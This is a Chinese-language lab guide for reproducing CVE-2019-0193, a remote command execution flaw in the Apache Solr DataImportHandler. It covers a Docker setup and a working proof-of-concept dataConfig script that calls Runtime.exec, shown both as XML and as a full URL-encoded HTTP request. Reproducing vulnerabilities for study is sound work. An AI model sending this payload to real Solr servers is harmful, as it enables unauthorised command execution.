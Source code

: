 # Apache Solr 远程命令执行漏洞（CVE-2019-0193）

Apache Solr 是一个开源的搜索服务器。它使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。此次漏洞出现在 Apache Solr 的 DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的 DIH 配置都可以通过外部请求的 dataConfig 参数来设置。由于 DIH 配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。

参考链接：

- <https://mp.weixin.qq.com/s/typLOXZCev_9WH_Ux0s6oA>
- <https://paper.seebug.org/1009/>

## 环境搭建

执行如下命令启动 Apache Solr 8.1.1 服务器：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:8983/` 即可看到 Apache Solr 的管理页面，无需登录。

## 漏洞复现

首先在页面左侧选择 `demo` 核心，打开 Dataimport 面板，开启右侧 Debug mode，填入以下 POC：

```
<dataConfig>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  ]]></script>
  <document>
    <entity name="sample"
            fileName=".*"
            baseDir="/"
            processor="FileListEntityProcessor"
            recursive="false"
            transformer="script:poc" />
  </document>
</dataConfig>
```

![](1.png)

点击 "Execute with this Configuration" 会发送以下请求：

```
POST /solr/demo/dataimport?_=1708782956647&indent=on&wt=json HTTP/1.1
Host: your-ip:8983
Content-Length: 613
Accept: application/json, text/plain, */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-type: application/x-www-form-urlencoded
Origin: http://your-ip:8983
Referer: http://your-ip:8983/solr/
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Connection: close

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=demo&dataConfig=%3CdataConfig%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22sample%22%0A++++++++++++fileName%3D%22.*%22%0A++++++++++++baseDir%3D%22%2F%22%0A++++++++++++processor%3D%22FileListEntityProcessor%22%0A++++++++++++recursive%3D%22false%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport
```

执行 `docker compose exec solr ls /tmp` 进入容器，可以看到 `touch /tmp/success` 已成功执行：

![](2.jpg)

